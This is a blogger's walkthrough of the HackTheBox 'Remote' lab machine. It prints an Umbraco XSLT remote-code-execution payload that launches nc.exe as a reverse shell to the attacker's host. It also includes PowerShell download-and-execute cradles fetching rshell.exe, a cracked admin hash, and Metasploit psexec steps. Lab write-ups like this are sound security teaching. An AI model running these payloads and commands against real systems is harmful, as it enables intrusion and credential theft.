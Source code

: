 # CTF Writeup: HackTheBox - [Remote](https://www.hackthebox.eu/home/machines/profile/234)

In 2020 (thanks to COVID lockdowns), I started working on HackTheBox challenges. So far I have pwned/rooted 7 machines and it is too much fun! I finally got some time to go through my notes and decided to write this brief walkthrough to the [Remote](https://www.hackthebox.eu/home/machines/profile/234) machine.

This is not going to be a full wript-up with detailed steps, I am just going to skip over to most interesting findings. It goes without saying that there was hours of research between each stage and a lot of learning.

## Starting off with an NMAP Scan:

```
ports=$(sudo nmap -p- --min-rate=1000 -T4 10.10.10.180 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
sudo nmap -sC -sV -p$ports 10.10.10.180
```
We get a huge list of open ports and services:

```
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|_  SYST: Windows_NT
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       2-4 (RPC #100000)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
2049/tcp  open  mountd        1-3 (RPC #100005)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-05-31T11:01:30
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 84.11 seconds

```

As usual, I went through most of the well known ports to explore the attack surface:
- Start dirbuster on web applications
- Start manually browsing the web content
- Attempt manual connections to ftp and mountd services
- Fire up msfconsole and run some recon against netbios and rpc

I hit two interesting leads in the recon:
- Dirbuster found bunch of content on port 80

  ```
  GENERATED WORDS: 4612

  ---- Scanning URL: http://10.10.10.180/ ----
  + http://10.10.10.180/about-us (CODE:200|SIZE:5441)
  + http://10.10.10.180/blog (CODE:200|SIZE:5001)
  + http://10.10.10.180/Blog (CODE:200|SIZE:5001)
  + http://10.10.10.180/contact (CODE:200|SIZE:7880)
  + http://10.10.10.180/Contact (CODE:200|SIZE:7880)
  + http://10.10.10.180/home (CODE:200|SIZE:6703)
  + http://10.10.10.180/Home (CODE:200|SIZE:6703)
  + http://10.10.10.180/install (CODE:302|SIZE:126)
  + http://10.10.10.180/intranet (CODE:200|SIZE:3323)
  + http://10.10.10.180/master (CODE:500|SIZE:3420)
  + http://10.10.10.180/people (CODE:200|SIZE:6739)
  + http://10.10.10.180/People (CODE:200|SIZE:6739)
  + http://10.10.10.180/person (CODE:200|SIZE:2741)
  + http://10.10.10.180/product (CODE:500|SIZE:3420)
  + http://10.10.10.180/products (CODE:200|SIZE:5328)
  + http://10.10.10.180/Products (CODE:200|SIZE:5328)
  + http://10.10.10.180/umbraco (CODE:200|SIZE:4040)
  ```
- Umbraco is a CMS so I used a [Umbraco discovery wordlist](https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content/CMS) and discovered the login page 

  ` http://10.10.10.180/umbraco#/login/false?returnPath=%252Fumbraco`
- Second important discovery:
  - I was able to mount a volume using the mountd service

    `mount 10.10.10.180:/site_backups site_backups/`
  - It contained a directory called `App_data` with file `Umbraco.sdf`
  - A quick google search reveals it's a database file
  - Not sure how to open this file, I just drag and dropped it into my VSCode editor and instantly noticed a plain text string in load of garbage 

      `Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}`
  - BAM! There it is, the SHA1 hash for the Umbraco Administrator's password. But how do I crack it?
  - Well, I just googled how to crack SHA1 hash, in top results I see `https://crackstation.net/`, paste the hash into this website, and BAM! `baconandcheese` is the password!
  - Login to the Umbraco CMS as admin
 
## Umbraco Remote Code Execution
 
* Next step is to somehow get code execution. So I re-visited exploit-db and noticed [Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution](https://www.exploit-db.com/exploits/46153) exploit. The word authenticated caught my eye and I was quite sure this exploit has to work. Of course, it didn't work.
* After bit of tinkering with the payload, I modified it to obtain a reverse shell using nc back to my kali machine:

```
payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
{ string cmd = "10.10.14.23:4449"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "nc.exe"; proc.StartInfo.Arguments = cmd;\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
 </xsl:template> </xsl:stylesheet> '
```
Got the user flag `type c:\Users\Public\user.txt`

## Privilege Escalation

Now for finding privilege escalation to root, I spent too much time looking around the system and finding missing patches, etc but no luck. Hmm, the name of the machine is `remote` so there must be a remote access service that we can exploit. Did some service enumeration and found that TeamViewer is running. That's probably the way in.

* In Metasploit, I noticed `windows/gather/credentials/teamviewer_passwords` module. So I spent the time to now get a proper shell into my msfconsole. I ended up using following commands in my existing reverse shell:

```
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.25:8000/rshell.exe');"

powershell.exe -command PowerShell -ExecutionPolicy bypass -noprofile -windowstyle hidden -command (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.25:8000/rshell.exe',"$env:APPDATA\rshell.exe");Start-Process ("$env:APPDATA\rshell.exe")
```

* Once I had the session in msfconsole, I run the `windows/gather/credentials/teamviewer_passwords` module and BAM!

  ```
  TeamViewer Client ID - 1769137322
  Unattended Password: !R3m0te!
  ```
  
* Now, I tried many ways to use these credentials to actually connect to the target machine using TeamViewer client but it did not work. I could not figure out what was going on. So I slept over it.
* Next day, I was working and spent most of my day in Zoom meetings with my colleagues. At one point, there were disucssions about a phishing incident and re-using passwords. After tiring day of Zoomming, as I was recollecting my thoughts I realized the risks of **re-using passwords** and how it may be the trick in this HackTheBox challenge. 
* It would be too easy I said to myself, but decided to give it a try anyway. Fired up msfconsole, 

```
msfconsole> use windows/smb/psexec
msfconsole> set SMBUSer administrator
msfconsole> set SMBPass !R3m0te!

msfconsole> exploit
```

and BAM! I could not believe it worked. And as easy as that, we get the administrator access and the root flag!
